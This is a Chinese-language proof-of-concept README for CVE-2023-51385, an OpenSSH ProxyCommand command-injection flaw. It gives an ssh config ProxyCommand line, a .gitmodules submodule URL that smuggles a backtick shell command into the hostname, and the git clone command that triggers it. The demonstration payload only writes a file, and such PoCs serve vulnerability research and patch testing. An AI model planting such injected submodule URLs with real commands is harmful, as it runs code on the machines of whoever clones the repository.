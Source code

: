 ## OpenSSH ProxyCommand命令注入漏洞 (CVE-2023-51385)
SSHProxyCommand是一个用于代理SSH连接的广泛使用的功能，允许用户指定用于连接到服务器的自定义命令。该功能的参数中可能包含像%h（主机名）和%u（用户名）这样的标记。然而，当主机名来自不受信任的来源时，存在潜在的安全风险，因为可能构造恶意主机名，看起来像“恶意命令”，并通过反引号执行Shell命令。

首先需要在~/.ssh/config增加如下
```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```
.gitmodules文件语句中存在命令注入
```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```
配置完成后,执行下面的指令触发
```
git clone https://github.com/wy876/CVE-2023-51385_test --recurse-submodules
```
如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件

![image](https://github.com/wy876/POC/assets/139549762/ab5f8d1a-2cd0-48af-8828-28447f809ad5)


## 漏洞来源
- https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html
